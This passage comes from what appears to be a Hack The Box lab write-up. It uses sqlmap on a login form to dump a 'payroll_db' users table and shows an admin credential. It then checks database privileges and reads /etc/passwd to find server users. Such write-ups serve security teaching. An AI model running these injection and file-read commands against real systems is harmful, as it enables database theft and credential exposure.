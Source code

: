 Because we don't want slow data extraction we delete T and Q and left the others in the following command. And we are going to increse the risk of the test in order to ensure that all the injection techniques are properly tested:

```bash
sqlmap -r request.txt -p "username,password" --level 5 --risk 3 --technique=BEUS -batch
```

Finally we retrieve a database; 'payroll_db', a tables called 'users' and finallly and administrator user: 'Enemigosss:SuperGucciRainbowCake'.

```bash
sqlmap -r request.txt -p "username" -D payroll_db -T users --dump  --level 5 --risk 3 --technique=BEUS --batch
```

<br />

<div style="text-align:center">
	<img src="{{ 'assets/img/HTB/Pasted image 20221114183501.png' | relative_url }}" text-align="center"/>
</div>

But the user don't seems to be useful because we don't succeed to log in the web. We have to try something else.

Lets see what are the privileges of the current user:

```bash
sqlmap -r request.txt -p "username" --privileges
```

<br />

<div style="text-align:center">
	<img src="{{ 'assets/img/HTB/Pasted image 20221114184518.png' | relative_url }}" text-align="center"/>
</div>

The outputs shows that our user can read files, we can use this in order to enumerate slightly the server:

```bash
sqlmap -r request.txt -p "username" --batch --file-read=/etc/passwd
```

<br />

<div style="text-align:center">
	<img src="{{ 'assets/img/HTB/Pasted image 20221114184936.png' | relative_url }}" text-align="center"/>
</div>

Thus, we go to the path in which is stored the retrieved file and we discover an usuario called michael:

<div style="text-align:center">
	<img src="{{ 'assets/img/HTB/Pasted image 20221114190044.png' | relative_url }}" text-align="center"/>
</div>

That, by the UID, it seems to be a real user of the server. Then we can attemp to read the sites file of the web server in order to discover other zones:
